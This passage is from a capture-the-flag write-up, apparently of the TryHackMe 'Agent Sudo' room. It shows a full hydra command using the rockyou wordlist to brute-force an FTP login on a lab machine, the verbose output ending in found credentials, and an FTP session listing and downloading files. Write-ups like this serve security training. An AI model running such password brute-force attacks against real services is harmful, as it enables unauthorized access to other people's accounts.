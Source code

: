 Out of curiosity, I tried `J` as a user-agent, but that did not yield anything. However, now that we know about a user named `----s`, we should see if we can access the vsftpd FTP server on port 21. I chose to use `hydra` to attempt to brute force the server. This process went extremely slowly, unfortunately, with several disconnections from the remote host. I assume that this has to do with some form of rate limiting.

```shell
┌──(virtualtack㉿kali-bot)-[~/thm/agent-sudo]
└─$ hydra -t 1 -l ----s -P /usr/share/wordlists/rockyou.txt -vV 10.10.73.189 ftp
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-05-23 10:19:49
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
[DATA] attacking ftp://10.10.73.189:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "12345" - 2 of 14344400 [child 0] (0/1)
[STATUS] 2.00 tries/min, 2 tries in 00:01h, 14344398 to do in 119536:40h, 1 active
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "123456789" - 3 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "password" - 4 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "iloveyou" - 5 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "princess" - 6 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "1234567" - 7 of 14344401 [child 0] (0/2)

... 🕒 two hours later 🕒 ...

[ATTEMPT] target 10.10.73.189 - login "----s" - pass "cutie" - 243 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "james" - 244 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "banana" - 245 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "prince" - 246 of 14344401 [child 0] (0/2)
[STATUS] 7.94 tries/min, 246 tries in 00:31h, 14344155 to do in 30126:37h, 1 active
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "friend" - 247 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "jesus1" - 248 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "------l" - 249 of 14344401 [child 0] (0/2)
[21][ftp] host: 10.10.73.189   login: ----s   password: ------l
[STATUS] attack finished for 10.10.73.189 (waiting for children to complete tests)

```
We test out our new credentials and discover three files on the FTP server that we can get. We download the text message first.
```shell
┌──(virtualtack㉿kali-bot)-[~/thm/agent-sudo]
└─$ ftp 10.10.73.189 
Connected to 10.10.73.189.
220 (vsFTPd 3.0.3)
Name (10.10.73.189:virtualtack): ----s
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||20720|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||35196|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
```